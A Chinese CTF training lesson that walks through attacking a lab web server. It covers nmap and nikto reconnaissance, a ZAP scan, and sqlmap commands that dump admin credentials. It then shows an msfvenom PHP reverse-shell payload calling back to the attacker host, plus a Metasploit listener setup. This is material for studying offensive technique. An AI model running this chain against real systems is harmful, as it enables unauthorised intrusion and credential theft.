




# CTF最强战队蓝莲花内部培训教程：P13：14.CTF夺旗sql注入get

## 概述
在本节课中，我们将学习Web安全中的SQL注入漏洞。我们将通过一个完整的流程，从发现SQL注入漏洞开始，利用它获取系统的用户名和密码，登录系统后台，寻找上传点，上传Webshell，最终获取服务器权限并找到Flag值。

## SQL注入漏洞简介
上一节我们概述了本节课的目标，本节中我们来看看什么是SQL注入漏洞。

SQL注入漏洞，即SQL注入攻击，指的是通过构建特殊的输入作为参数传入到Web应用程序中。这些输入大都是SQL语句里的一些组合。通过执行我们构造的SQL语句，进而执行我们想要的操作。

SQL注入漏洞产生的原因，可以说是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统并执行了对应的操作。

## SQL注入产生的原因
SQL注入产生的原因通常表现在以下几个方面。以下是几个主要的原因：

1.  不正当的类型处理。
2.  不安全的数据库配置。
3.  不合理的查询集处理。
4.  不当的错误处理。
5.  转义字符处理不当。
6.  多个提交处理不当。

实际上，本质原因是程序允许用户输入，而用户输入了恶意字符后，系统没有对其过滤或者过滤不严格，从而导致了SQL注入漏洞的出现。

## 实验环境介绍
在开始课程之前，我们先介绍一下今天的实验环境。

*   **攻击机**：IP地址为 `192.168.253.12`，系统为Kali Linux。
*   **靶机**：IP地址为 `192.168.253.15`。

我们的目标是不论在CTF比赛还是日常工作中，都要设法获得靶机的控制权。在CTF比赛中，获得权限后还需找到并提交Flag值。

## 信息收集
下面我们进入今天的实验环境进行测试。在测试的第一步，我们需要对靶机进行信息探测。



首先，我们要探测靶机开放的服务信息以及服务的版本信息。我们使用Nmap工具，命令为 `nmap -sV [靶机IP]`。

打开终端，输入命令：
```bash
nmap -sV 192.168.253.15
```
Nmap会向靶机发送探测数据包，并将处理后的结果输出。探测完成后，我们除了服务信息，还可以进行更全面的探测。



接下来，我们使用命令 `nmap -T4 -A -v [靶机IP]` 来探测主机的全部信息。`-T4` 代表快速扫描，`-A` 启用所有探测模块，`-v` 显示详细输出。

输入命令：
```bash
nmap -T4 -A -v 192.168.253.15
```
Nmap会以最快速度扫描并分析结果。扫描完成后，我们还可以对具体的服务进行深入探测。

下面，我们使用 `nikto` 工具来探测HTTP服务的敏感信息。命令为 `nikto -h http://[靶机IP]:[端口]`。如果HTTP服务使用默认的80端口，端口号可以省略。

输入命令进行实践：
```bash
nikto -h http://192.168.253.15
```
nikto会开始探测靶机Web服务的敏感信息，并返回结果。

## 信息分析与漏洞扫描
探测完信息后，我们需要对这些信息进行分析，深入挖掘可利用的信息。

分析Nmap和nikto的扫描结果，我们发现靶机开放了HTTP服务。我们可以尝试访问其中的敏感页面来挖掘信息。例如，在nikto结果中，我们发现了一个后台登录页面：`/admin/login.php`。

我们在浏览器中打开该页面：`http://192.168.253.15/admin/login.php`。

这是一个登录界面。我们尝试使用常见的弱口令（如admin/admin）进行登录，但未能成功，说明该系统不存在此弱口令。

既然无法直接登录，我们的下一步操作就是对系统进行漏洞扫描，寻找可利用的漏洞来获取凭证。今天我们将使用Kali中集成的Web漏洞扫描器：OWASP ZAP。

ZAP是一款流行的免费安全工具，能自动发现Web应用程序中的安全漏洞，也是渗透测试人员进行手动测试的优秀工具。

我们打开ZAP软件，点击“Automated Scan”按钮。在URL to attack栏中输入靶机地址 `http://192.168.253.15`，然后点击“Attack”开始主动扫描。

扫描器会先对站点进行爬虫，收集所有页面，然后根据策略对每个页面进行安全性检测。扫描完成后，界面会跳转到“Alerts”选项卡。

在结果中，不同颜色的旗帜代表不同风险等级的漏洞。深红色（或深黄色）代表高危漏洞。我们可以看到存在“反射型XSS”以及“SQL注入”漏洞。本节课，我们将利用这个SQL注入漏洞来获取数据库中的用户名和密码。

## 利用SQL注入漏洞
接下来，我们对扫描到的SQL注入漏洞进行利用。SQL注入属于高危漏洞，可以直接获取服务器权限或数据库中的敏感信息。

我们将使用 `sqlmap` 工具来利用此漏洞。基本步骤如下：
1.  使用 `sqlmap -u “[URL]” --dbs` 查看数据库名。
2.  使用 `sqlmap -u “[URL]” -D [数据库名] --tables` 查看指定数据库中的表名。
3.  使用 `sqlmap -u “[URL]” -D [数据库名] -T [表名] --columns` 查看指定表的列名（字段）。
4.  最后使用 `sqlmap -u “[URL]” -D [数据库名] -T [表名] -C “[列名1,列名2]” --dump` 查看指定列的数据。



首先，我们从ZAP的扫描结果中复制出存在注入点的URL。在终端中，我们先用sqlmap测试该点是否存在注入：
```bash
sqlmap -u “http://192.168.253.15/vuln.php?id=1”
```
sqlmap确认该点存在SQL注入漏洞，并支持多种注入方式。接着，我们获取数据库名：
```bash
sqlmap -u “http://192.168.253.15/vuln.php?id=1” --dbs
```
返回了两个数据库名：`information_schema`（系统数据库）和 `portal_db`（我们目标数据库）。我们使用 `portal_db` 数据库。

接下来，查看 `portal_db` 数据库中的表：
```bash
sqlmap -u “http://192.168.253.15/vuln.php?id=1” -D portal_db --tables
```
返回了三个表名。我们的目标是获取后台登录的用户名和密码，因此关注 `users` 表。查看 `users` 表的列名：
```bash
sqlmap -u “http://192.168.253.15/vuln.php?id=1” -D portal_db -T users --columns
```
返回了表中的字段。我们从中提取用户名和密码字段（例如 `login` 和 `password`）。最后，获取这两个字段的数据：
```bash
sqlmap -u “http://192.168.253.15/vuln.php?id=1” -D portal_db -T users -C “login,password” --dump
```
sqlmap成功返回了用户名 `admin` 和其密码的MD5哈希值。并使用自带的哈希文件破解出明文密码为 `P4SSW0RD`。



## 登录后台与后续准备
获取到用户名和密码后，我们回到登录页面 `http://192.168.253.15/admin/login.php`，使用 `admin` 和 `P4SSW0RD` 进行登录。登录成功，进入系统后台。

登录后台后，我们的下一步操作是上传一个Webshell，从而获取服务器的命令执行权限。在上传之前，我们需要生成Webshell并启动监听。

在Kali终端中，我们使用 `msfvenom` 生成一个PHP的反弹Shell（Webshell）：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
`LHOST` 需设置为攻击机(Kali)的IP `192.168.253.12`，`LPORT` 是监听端口。生成一段PHP代码后，我们从 `<?php` 开始复制，在桌面新建一个文件 `shell.php`，将代码粘贴进去保存。

Webshell生成后，我们需要在攻击机上启动Metasploit框架来监听反弹连接。打开终端，输入 `msfconsole` 启动Metasploit。依次执行以下命令设置监听：
```bash
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.253.12
set LPORT 4444
exploit
```
这样，监听器就设置好了，等待靶机执行我们上传的Webshell后连接回来。

## 总结
本节课中，我们一起学习了SQL注入漏洞的完整利用流程。我们从信息收集开始，使用Nmap和nikto探测靶机信息；然后利用OWASP ZAP进行漏洞扫描，发现了SQL注入点；接着使用sqlmap工具自动化地利用该漏洞，成功获取了后台管理员账户的明文密码；登录系统后台后，我们生成了PHP反弹Shell（Webshell）并在攻击机上配置了Metasploit监听器，为后续上传Webshell并获取服务器权限做好了准备。这个过程涵盖了从外网信息探测到漏洞利用、权限获取的关键步骤。